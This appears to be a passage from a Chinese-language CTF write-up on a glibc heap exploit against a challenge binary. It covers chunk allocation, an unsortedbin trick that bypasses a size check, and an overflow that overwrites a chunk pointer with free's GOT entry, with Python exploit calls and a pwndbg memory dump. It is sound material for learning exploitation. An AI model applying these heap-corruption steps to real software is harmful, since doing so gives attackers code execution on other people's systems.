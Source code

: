 一个是name 另外一个就是text(在add中调用edit函数进行填充)

我们构造同等大小的chunk，如下代码操作

```Python
add(80,80,"H.R.P")
add(80,80,"H.R.P")
add(80,80,"/bin/sh\x00")
```

现在一共有6个chunk

我们释放0号chunk 可以得到一个0x100的chunk(0x80+0x80)

这个chunk在unsortedbin

下面我们再new一个chunk 这个chunk就会成为新的0号chunk

chunk大小设置为0x100从unsortedbin中提取出来不足的部分就会在最下面新开

这样就绕过了检测

![1](https://user-images.githubusercontent.com/72968793/125313079-79d3ea80-e367-11eb-9ad0-c982366468a8.png)

text大小为0x19c，0x110(这里有0x10是chunk本身结构体会占用的实际可用大小为0x100但是我们填充是从头+8开始填的所以是0x110)

+0x80(chunk 1)+0x8填充弥补头的prve_size +0x4 free的got地址

填充好后如下

0x89bd1a0:	0x006e69000804b010	0x0000000000000000

这就是1号chunk指向chunk0的指针改掉他成free的got

```shell
pwndbg> x/128gx 0x89bd000
0x89bd000:	0x0000011100000000	0x6161616161616161
0x89bd010:	0x6161616161616161	0x6161616161616161
0x89bd020:	0x6161616161616161	0x6161616161616161
0x89bd030:	0x6161616161616161	0x6161616161616161
0x89bd040:	0x6161616161616161	0x6161616161616161
0x89bd050:	0x6161616161616161	0x6161616161616161
0x89bd060:	0x6161616161616161	0x6161616161616161
0x89bd070:	0x6161616161616161	0x6161616161616161
0x89bd080:	0x6161616161616161	0x6161616161616161
0x89bd090:	0x6161616161616161	0x6161616161616161
0x89bd0a0:	0x6161616161616161	0x6161616161616161
0x89bd0b0:	0x6161616161616161	0x6161616161616161
0x89bd0c0:	0x6161616161616161	0x6161616161616161
0x89bd0d0:	0x6161616161616161	0x6161616161616161
0x89bd0e0:	0x6161616161616161	0x6161616161616161
0x89bd0f0:	0x6161616161616161	0x6161616161616161
0x89bd100:	0x6161616161616161	0x6161616161616161
0x89bd110:	0x6161616161616161	0x6161616161616161
0x89bd120:	0x6161616161616161	0x6161616161616161
0x89bd130:	0x6161616161616161	0x6161616161616161
0x89bd140:	0x6161616161616161	0x6161616161616161
0x89bd150:	0x6161616161616161	0x6161616161616161
0x89bd160:	0x6161616161616161	0x6161616161616161
0x89bd170:	0x6161616161616161	0x6161616161616161
0x89bd180:	0x6161616161616161	0x6161616161616161
0x89bd190:	0x6161616161616161	0x6161616161616161
0x89bd1a0:	0x006e69000804b010	0x0000000000000000

```
